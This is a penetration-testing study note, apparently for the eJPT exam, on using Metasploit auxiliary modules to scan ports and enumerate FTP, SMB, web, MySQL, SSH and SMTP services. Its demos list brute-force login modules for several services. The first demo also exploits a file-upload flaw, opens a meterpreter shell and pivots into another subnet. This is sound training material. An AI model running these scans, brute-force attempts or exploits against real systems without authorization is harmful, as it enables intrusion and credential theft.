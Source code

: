 # 27 Enumeration

# Port Scanning with Auxiliary Modules

## Auxiliary Modules

- Auxiliary modules are used to perform functionality like scanning, discovery and fuzzing
- We can use auxiliary modules to perform both TCP & UDP port scanning as well as enumerating information from services like FTP, SSH, HTTP, etc.
- Auxiliary modules can be used during the information gathering phase of a penetration test as well as the post exploitation phase
- We can also use auxiliary modules to discover hosts and perform port scanning on a different subnet after we have obtained initial access on a target system 

### DEMO

```shell
service postgresql start
msfconsole
msf6: db_status
msf6: workspace -a <name>
msf6: search portscan
msf6: curl <ip> 
msf6: search xoda
msf6: exploit(unix/webapp/xoda_file_upload) # Just to exploit this particular case
msf6: meterpreter
meterpreter: sysinfo
meterpreter: shell
/bin/bash -i
bash: ifconfig # Then exit
meterpreter: run autoroute -s <ip-different-subnet> # Add route of different subnet
meterpreter: background
msf6: sessions
msf6: search portscan
msf6: set rhosts <ip-target2>
msf6: auxiliary(scanner/discovery/udp_sweep) # UDP scan
```

# FTP Enumeration

- FTP (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients
- It is also frequently used as a means of transferring files to and from the directory of a web server
- We can use multiple auxiliary modules to enumerate information as well as perform brute-force attacks on targets running an FTP server
- FTP authentication utilizes a username and password combination, however, in some cases an improperly configured FTP server can be logged into anonymously 

### DEMO

```shell
search type:auxliary name:ftp
msf6: auxiliary(scanner/ftp/ftp_version)
msf6: auxiliary(scanner/ftp/ftp_login) # Brute force
msf6: ftp <ip> # Connect to FTP
msf6: auxiliary(scanner/ftp/anonymous) # Check anon log-in
```

# SMB Enumeration

- SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computer on a local network (LAN)
- SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139
- SAMBA is the Linux implementation of SMB, and allows Windows systems to access Linux shares and devices
- We can utilize auxiliary modules to enumerate SMB version, shares, users, and perform a brute-force attack in order to identify users and passwords

### DEMO

```shell
msf6: auxiliary(scanner/smb/smb_version)
msf6: auxiliary(scanner/smb/smb_enumusers)
msf6: auxiliary(scanner/smb/smb_enumshares)
msf6: auxiliary(scanner/smb/smb_login) # Brute force

smbclient -L \\\\<ip-target>\\ -U admin # List shares
smbclient \\\\<ip-target>\\<share> -U admin # Login in share
```


# Web Server Enumeration

- A web server is software that is used to serve website data on the web
- Web servers utilize HTTP (Hypertext Transfer Protocol) to facilitate the communication between clients and the web server
- HTTP is an application layer protocol that utilizes TCP port 80 for communication
- We can utilize auxiliary modules to enumerate the web server version, HTTP header, brute-force directories and much more
- Examples of popular web servers are: Apache, Nginx and Microsoft IIS 

### DEMO

```shell
msf6: auxialiary(scanner/http/http_version)
msf6: auxialiary(scanner/http/http_header)
msf6: auxialiary(scanner/http/robots_txt)
msf6: auxialiary(scanner/http/dir_scanner)
msf6: auxialiary(scanner/http/files_dir) # Enum files
msf6: auxialiary(scanner/http/http_login)
msf6: auxialiary(scanner/http/apache_userdir_enum)

curl http://<url>/ # Download 
```


# MySQL Enumeration

- MySQL is an open-source relational database management system based on SQL (Structured Query Language)
- It is typically used to store records, customer data, and is most commonly deployed to store web application data
- MySQL utilizes TCP port 3306 by default, however, like any service it can be hosted on any open TCP port
- We can utilize auxiliary modules to enumerate the version of MySQL, perform brute.force attacks to identify passwords, execute SQL queries and much more

### DEMO

```shell
msf6: auxiliary(scanner/mysql/mysql_version)
msf6: auxiliary(scanner/mysql/mysql_login)
msf6: auxiliary(admin/mysql/mysql_enum) # Require access with credentials
msf6: auxiliary(admin/mysql/mysql_sql) # Require access with credentials, send sql query
msf6: auxiliary(scanner/mysql/mysql_schemadump)
msf6: hosts, services, loot, creds # Single commands to show what we already find 

mysql -h <ip> -u <user> -p # Login mysql
```


# SSH Enumeration

- SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet
- It is typically used for remote access to servers and systems
- SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port
- We can utilize auxiliary modules to enumerate the version of SSH running on the target as well as perform brute-force attacks to identify passwords that consequently provide us remote access to a target

```shell
msf6: auxiliary(scanner/ssh/ssh_version)
msf6: auxiliary(scanner/ssh/ssh_login)
msf6: sessions
msf6: auxiliary(scanner/ssh/ssh_enumusers)
```


# SMTP Enumeration

- SMTP (Simple Mail Transfer Protocol) is a communication protocol that is used for the transmission of email
- SMTP uses TCP port 25 by default. It is can also be configured to run on TCP port 465 and 587
- We can utilize auxiliary modules to enumerate the version of SMTP as well as user accounts on the target system

```shell
msf6: auxiliary(scanner/smtp/smtp_version)
msf6: auxiliary(scanner/smtp/smtp_enum)
```

#eJPT #cybersecurity 